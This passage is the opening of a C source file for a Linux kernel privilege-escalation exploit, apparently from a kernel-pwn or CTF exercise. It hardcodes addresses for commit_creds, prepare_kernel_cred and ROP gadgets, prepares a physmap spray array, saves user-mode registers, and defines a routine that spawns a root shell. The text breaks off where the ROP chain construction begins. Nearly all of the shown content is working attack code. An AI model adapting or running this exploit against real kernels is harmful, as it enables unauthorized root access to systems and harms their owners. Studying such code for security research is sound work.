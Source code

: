 ```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

size_t  prepare_kernel_cred = 0xffffffff810c9540;
size_t  commit_creds = 0xffffffff810c92e0;
size_t  init_cred = 0xffffffff82a6b700;
size_t  pop_rdi_ret = 0xffffffff8108c6f0;
size_t  pop_rax_ret = 0xffffffff810115d4;
size_t  pop_rsp_ret = 0xffffffff811483d0;
size_t  swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00fb0 + 27;
size_t  add_rsp_0xe8_pop_rbx_pop_rbp_ret = 0xffffffff812bd353;
size_t  add_rsp_0xd8_pop_rbx_pop_rbp_ret = 0xffffffff810e7a54;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t  ret = 0xffffffff8108c6f1;

void    (*kgadget_ptr)(void);
size_t  *physmap_spray_arr[16000];
size_t  page_size;
size_t     try_hit;
int     dev_fd;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(void)
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void getRootShell(void)
{   
    puts("\033[32m\033[1m[+] Backing from the kernelspace.\033[0m");

    if(getuid())
    {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh");
    exit(0);// to exit the process normally instead of segmentation fault
}

void constructROPChain(size_t *rop)
{
    int idx = 0;
```